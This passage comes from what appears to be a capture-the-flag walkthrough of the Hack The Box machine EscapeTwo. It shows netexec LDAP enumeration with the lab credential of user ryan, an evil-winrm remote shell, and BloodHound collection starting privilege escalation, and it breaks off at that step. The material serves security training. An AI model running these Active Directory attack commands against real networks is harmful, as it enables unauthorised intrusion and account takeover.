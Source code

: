 {% code overflow="wrap" %}
```bash
$ nxc ldap escapetwo -u ryan -p WqSZAF6CysDQbGb3 -M whoami
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
WHOAMI      10.10.11.51     389    DC01             distinguishedName: CN=Ryan Howard,CN=Users,DC=sequel,DC=htb
WHOAMI      10.10.11.51     389    DC01             Member of: CN=Management Department,CN=Users,DC=sequel,DC=htb
WHOAMI      10.10.11.51     389    DC01             Member of: CN=Remote Management Users,CN=Builtin,DC=sequel,DC=htb
WHOAMI      10.10.11.51     389    DC01             name: Ryan Howard
WHOAMI      10.10.11.51     389    DC01             Enabled: Yes
WHOAMI      10.10.11.51     389    DC01             Password Never Expires: Yes
WHOAMI      10.10.11.51     389    DC01             Last logon: 133928407707089079
WHOAMI      10.10.11.51     389    DC01             pwdLastSet: 133623393456777728
WHOAMI      10.10.11.51     389    DC01             logonCount: 30
WHOAMI      10.10.11.51     389    DC01             sAMAccountName: ryan
```
{% endcode %}

{% code overflow="wrap" %}
```bash
$ evil-winrm -u ryan -p WqSZAF6CysDQbGb3 -i 10.10.11.51
...
*Evil-WinRM* PS C:\Users\ryan\Documents>
```
{% endcode %}

## 🚀 Privilege Escalation

{% code overflow="wrap" %}
```bash
$ nxc ldap 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3 --bloodhound -c All --dns-server 10.10.11.51
```
{% endcode %}

<figure><img src="../../.gitbook/assets/escapetwo_ryan_writeowner.png" alt=""><figcaption></figcaption></figure>
